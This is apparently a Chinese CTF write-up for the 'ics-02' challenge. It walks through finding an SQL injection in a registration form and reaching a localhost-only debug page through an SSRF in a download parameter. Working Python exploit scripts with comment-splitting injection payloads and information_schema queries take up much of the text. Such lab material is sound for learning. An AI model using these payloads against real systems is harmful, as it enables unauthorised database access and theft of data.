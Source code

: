 ## ics-02

文档管理中心提示下载一个paper,是关于SSRF的

抓包查看过程

```
GET /download.php?dl=ssrf HTTP/1.1
Host: 111.198.29.45:46494
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://111.198.29.45:46494/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: JSESSIONID=206B255ED675C0EAF469D2BD32119F91
Connection: close
```

这个参数明示了SSRF了，试一下

```
GET /download.php?dl=233 HTTP/1.1
Host: 111.198.29.45:46494
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://111.198.29.45:46494/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: JSESSIONID=206B255ED675C0EAF469D2BD32119F91
Connection: close

HTTP/1.1 404 Not Found
Date: Fri, 31 Jan 2020 13:39:28 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.22
Content-Description: File Transfer
Content-Transfer-Encoding: binary
Content-Length: 63
Connection: close
Content-Type: application/octet-stream

File 233.pdf doesn't exist. Please report the error to admin...
```

可以这里的参数加了后缀.pdf

试了一下00截断%00截断都不行

用nikto扫了一下，没啥了

用御剑扫了一下目录，有个/secret

里面两个文件

![img](C:\Users\Eki\Documents\~9LC[NEC%NEG{_T~@T$]4YF.png)

fuzz一下发现

secret.php可以提交表单，在

```
http://111.198.29.45:46494/secret/secret.php?s=3&txtfirst_name=A&txtmiddle_name=B&txtLast_name=C&txtname_suffix=D&txtdob=E&txtdl_nmbr=123456789&txtRetypeDL=123456789&btnContinue2=Continue
```

中，各参数是可控的

且服务端返回

```
Registration Success
SUCCESSFULLY REGISTERED
Confirm that the following data is correct so we know it was stored correctly in our database.

Name: 12312, 213
DoB: 11/01/2000
```

提示这里可能存在sql注入点

问题来了怎么注呢........... 

和之前的SSRF又有什么关系呢？？？

注意到我们提交了9个参数

其中存进表里的应该是

```
txtfirst_name=a&txtmiddle_name=b&txtLast_name=c&txtname_suffix=d&txtdob=e&txtdl_nmbr=f&txtRetypeDL=f&btnContinue2=Continue
```

猜测后台的sql语句应该是

```sql
INSERT INTO <table> (A,B,C,D,E,F) VALUES ('a','b','c','d','e','f')
```

并且f是唯一的

那么我们可以利用注释符来进行注入 比如

```
a=A','B',("+sqlquery+"),'D'/*
e=*/,'E
```

拼接后

```sql
INSERT INTO <table> (A,B,C,D,E,F) VALUES ('A','B',("+sqlquery+"),'D'/*','c','d','*/,'E','f')
```

可以利用python的request构造"Exp"：

```python
import requests
import random

url = 'http://111.198.29.45:46494/secret/secret.php?'

sqlquery = "version()"

id = random.randint(1, 10000000)

payload = {
    "s": "3",
    "txtfirst_name": "A','B',("+sqlquery+"),'D'/*",
    "txtmiddle_name": "B",
    "txtLast_name": "C",
    "txtname_suffix": "D",
    "txtdob": "*/,'31/01/2020",
    "txtdl_nmbr": id,
    "txtRetypeDL": id
    }


r = requests.get(url, params=payload)
print(r.text)
```

但是，返回的还是那个东西....

```
Registration Success
SUCCESSFULLY REGISTERED
Confirm that the following data is correct so we know it was stored correctly in our database.

Name: C, A','B',(version()),'D'/*
DoB: */,'31/01/2020
```

注释里提示了

```html
<!-- <a href="debug.php">#</a> -->
```

但是前面那个secret_debug.php显示ip无权访问

修改XFF也不行

应该就是这里SSRF了

利用之前download.php的参数

可以构造Exp

```python
import requests
import random
import urllib

url = 'http://111.198.29.45:46494/download.php'

#sqlquery = "version()"
#sqlquery = "database()"
#sqlquery = "select table_name from information_schema.tables where table_schema='ssrfw' LIMIT 1"
#sqlquery = "select column_name from information_schema.columns where table_name='cetcYssrf' LIMIT 1"
#sqlquery = "select column_name from information_schema.columns where table_name='cetcYssrf' LIMIT 1, 1"
sqlquery = "select value from cetcYssrf LIMIT 1"

qid = random.randint(1, 10000000)

d = ('http://127.0.0.1/secret/secret_debug.php?' +
        urllib.parse.urlencode({
            "s": "3",
            "txtfirst_name": "A','B',("+sqlquery+"),'D'/*",
            "txtmiddle_name": "B",
            "txtLast_name": "C",
            "txtname_suffix": "D",
            "txtdob": "*/,'31/01/2020",
            "txtdl_nmbr": qid,
            "txtRetypeDL": qid
            }) + "&")
#注意？号的使用

r = requests.get(url, params={"dl": d})
print(r.text)
```

### 参考资料

SSRF攻击：

[https://xz.aliyun.com/t/2115](https://xz.aliyun.com/t/2115)

本题Poc的构造:

[https://www.guildhab.top/?p=708](https://www.guildhab.top/?p=708)